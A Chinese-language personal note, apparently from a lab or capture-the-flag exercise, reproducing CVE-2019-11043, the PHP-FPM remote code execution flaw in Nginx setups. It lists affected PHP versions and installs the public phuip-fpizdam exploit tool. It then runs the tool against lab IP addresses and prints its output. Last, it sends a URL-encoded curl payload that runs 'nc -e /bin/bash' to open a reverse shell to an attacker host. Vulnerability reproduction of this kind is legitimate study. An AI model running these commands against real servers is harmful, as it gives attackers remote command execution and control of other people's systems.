 ```yaml
---
{"created":"2024-12-04T14:16:08.389+08:00","tags":["CVE","PHP","Nginx","CVE-2019-11043","RCE"],"Type":"Note","dg-publish":true,"漏洞类型":["RCE"],"漏洞出处":["PHP"],"aliases":null,"permalink":"/20-网安/28-CVE复现/CVE-2019-11043/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 漏洞描述
PHP 7 的 PHP-FPM 存在远程代码执行漏洞
## 2. 影响范围
在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响，另外，PHP 5.6版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行：

- 低于7.1.33的PHP版本7.1.x，
- 低于7.2.24的7.2.x
- 低于7.3.11的7.3.x

## 3. 利用方式
https://github.com/neex/phuip-fpizdam
环境安装
```bash
apt-get install golang
go get github.com/neex/phuip-fpizdam
export PATH=$PATH:$(go env GOPATH)/bin
```
利用
```bash
phuip-fpizdam http://192.168.42.43/index.php
curl http://192.168.42.115/index.php/?a=/bin/sh+-c+'<命令>;<命令>'
建议对'<命令>;<命令>' 进行url编码
```

参考
```bash
┌──(root㉿kali)-[/home/kali/hmv/emma]
└─# phuip-fpizdam http://192.168.42.43/index.php
2024/12/04 12:39:32 Base status code is 200
2024/12/04 12:39:32 Status code 502 for qsl=1765, adding as a candidate
2024/12/04 12:39:32 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2024/12/04 12:39:32 Attack params found: --qsl 1755 --pisos 23 --skip-detect
2024/12/04 12:39:32 Trying to set "session.auto_start=0"...
2024/12/04 12:39:32 Detect() returned attack params: --qsl 1755 --pisos 23 --skip-detect <-- REMEMBER THIS
2024/12/04 12:39:32 Performing attack using php.ini settings...
2024/12/04 12:39:33 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2024/12/04 12:39:33 Trying to cleanup /tmp/a...
2024/12/04 12:39:33 Done!

#urlencode('id;nc -e /bin/bash 192.168.42.39 1234 ')
┌──(root㉿kali)-[/home/kali/hmv/emma]
└─# curl http://192.168.42.115/index.php/?a=/bin/sh+-c+%27id%3Bnc%20-e%20%2Fbin%2Fbash%20192.168.42.39%201234%20%27
```
